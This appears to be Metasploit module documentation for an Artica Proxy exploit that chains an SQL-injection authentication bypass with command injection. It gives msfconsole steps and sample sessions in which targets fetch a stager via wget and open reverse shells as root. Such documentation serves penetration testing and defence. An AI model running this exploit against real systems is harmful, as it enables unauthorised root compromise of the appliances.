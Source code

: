 ## Vulnerable Application

### Introduction

This module exploits two vulnerabilities on Artica Proxy (version 4.30.000000 and lower),
an authentication bypass and an authenticated remote code execution, the authentication bypass
is due to an SQL injection vulnerability present in fw.login.php.

Because the application runs in virtual appliance, successful exploitation yields code execution
as root on the target system.

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploit/linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection`
3. Do: `set RHOSTS [RHOSTS]`
4. Do: `check`
5. Verify if `check` detects vulnerable hosts as it should
6. Do: `exploit`
7. Verify if the payload was successfully executed on the target (that you get a session)

## Options

### PHPSESSID

The session cookie, if you have one.
If not set, the module will attempt to bypass authentication using the authentication bypass vulnerability.

## Scenarios

### Artica Proxy 4.26, 4.30.000000

#### Using a dropper / getting a native meterpreter shell (TARGET being Linux Dropper)

```
msf exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : 9a171f6964f8b35f53abf652d2b28748
[*] Using URL: http://0.0.0.0:8080/f0Y1VFKK4nAW
[*] Local IP: http://192.168.1.222:8080/f0Y1VFKK4nAW
[*] Attempting to gain RCE via CVE-2020-17505
[*] Client 192.168.1.223 (Wget/1.20.1 (linux-gnu)) requested /f0Y1VFKK4nAW
[*] Sending payload to 192.168.1.223 (Wget/1.20.1 (linux-gnu))
[*] Meterpreter session 1 opened (192.168.1.222:4444 -> 192.168.1.223:48330) at 2020-08-30 16:45:58 +0200
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : www.red0xff.co
OS           : Debian 10.2 (Linux 4.19.0-6-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > shell
Process 2724 created.
Channel 1 created.
id
uid=0(root) gid=0(root) groups=0(root)
```

#### Cmd payload : `cmd/unix/reverse_perl`

```
msf exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > 
msf exploit(linux/http/artica_proxy_auth_bypass_service_cmds_peform_command_injection) > exploit 

[*] Started reverse TCP handler on 192.168.1.222:4444 
[*] Attempting to bypass authentication via CVE-2020-17506 (SQL injection)
[+] Session cookie : 1049da6bfa8e6217072f810a9b62ff7b
[*] Attempting to gain RCE via CVE-2020-17505
[*] Command shell session 7 opened (192.168.1.222:4444 -> 192.168.1.223:48466) at 2020-08-30 16:50:15 +0200

id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
